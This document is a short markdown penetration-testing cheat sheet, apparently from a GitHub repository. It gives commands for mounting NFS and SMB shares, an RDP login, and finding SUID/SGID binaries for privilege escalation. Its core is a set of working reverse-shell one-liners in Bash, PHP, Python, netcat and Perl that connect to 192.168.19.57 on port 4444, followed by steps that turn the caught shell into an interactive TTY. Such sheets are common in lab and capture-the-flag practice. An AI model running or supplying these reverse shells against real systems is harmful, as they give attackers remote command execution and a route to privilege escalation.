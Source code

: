 
## mount nfs share
```bash
mount -t nfs -o vers=3 10.1.1.1:/home/ ~/home


mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/srv/Share mountpoint
```

## mount smb share
```sh
sudo mount -t cifs //10.1.1.1/'sharename' /home -o rw,vers=1.0,dir_mode=0777,file_mode=0777,nounix
# or
sudo mount -t cifs -o vers=1.0 //10.11.1.136/'Sharename' sharemount
```

## login to windows machine in the network with proxychains

```bash
xfreerdp /u:admin /v:ip_address +clipboard
```

## find suid,sgid binaries

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

## find files based on group

```sh
find / -group adm ! -type d -exec ls -la {} \; 2>/dev/null
```

## rev shells

```sh
Bash	bash -i >& /dev/tcp/192.168.19.57/4444 0>&1
PHP	php -r '$sock=fsockopen("192.168.19.57",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
Python	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.19.57",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
NCv1	nc -e /bin/sh 192.168.19.57 4444
NCv2	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.19.57 4444 >/tmp/f
Perl	perl -e 'use Socket;$i="192.168.19.57";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Make the shell interactive by executing below commands:

```sh
python -c'import pty;pty.spawn("/bin/bash")'
[ctrl+z]
stty raw -echo
fg
export TERM=xterm-256color
export SHELL=bash
stty rows 26 columns 238
```